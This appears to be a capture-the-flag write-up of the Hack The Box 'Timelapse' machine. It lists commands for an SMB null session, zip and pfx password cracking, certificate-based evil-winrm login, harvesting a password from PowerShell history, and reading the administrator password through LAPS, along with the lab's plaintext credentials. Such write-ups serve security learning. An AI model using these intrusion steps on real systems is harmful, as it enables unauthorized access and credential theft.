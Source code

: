 ### ++ Approach 10.129.227.113 ++
#### Credentials
	* test:test (SSH)

#### Services
	##### 53 DNS
		Domain: timelapse.htb
        DC: dc01.timelapse.htb

	##### 135 RPC
		Null session allowed

	##### 139,445 SMB
		Null session allowed
            - Shares folder has a proctected zip file called 

	##### 389 Ldap
		-

	##### 5986 WinRM
		-

### ++ Vulnerabilities ++

#### Vuln 1: SMB with sensitive information exposed ++
	* Null session allowed for SMB where we can find a winrm backup which allow us to get a foothold

### ++ System Interaction ++
#### Foothold  
	- In SMB we have a null session. In Shares folder we can get a zip file called 'winrm_backup.zip' and we crack it with zip2john to get 'supremelegacy' password
    - After decompress the file we find 'legacyy_dev_auth.pfx' which seems a file to authenticate through winrm. Using strings we get the user legacyy@timelapse.htb
    - **[Here](https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx)** we find a way to extract the certificates from the pfx file and use it through evil-winrm, but on the first command we get prompted for a password and the previous one doesn't work. After searching some info we found that we can use pfx2john to crack it and get the password 'thuglegacy'
    - Now generate the certificates and connect through evil-winrm:
        openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.pem
        openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
        openssl rsa -in private.pem -out private2.pem
        evil-winrm -i 10.129.227.113 -u legacyy -k private2.pem -c cert.crt -S (Here we must use -S to enable SSL)

#### Lateral Movement as svc_deploy
	* With winpeas we found the history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    * In this file we can find svc_deploy password to move laterally, and we can get a shell with evil-winrm enabling SSL:
        evil-winrm -i 10.129.227.113 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

#### Privilege Escalation 
    * svc_deploy is a member of LAPS_Readers group, so this user can read the passwords for the Active Directory
    * Commands: 
        Get-ADComputer -Identity 'dc01' -property 'ms-mcs-admpwd'
        evil-winrm -i 10.129.227.113 -u 'administrator' -p 'biwi&0]A4#5j6cT!rY0(yP2g' -S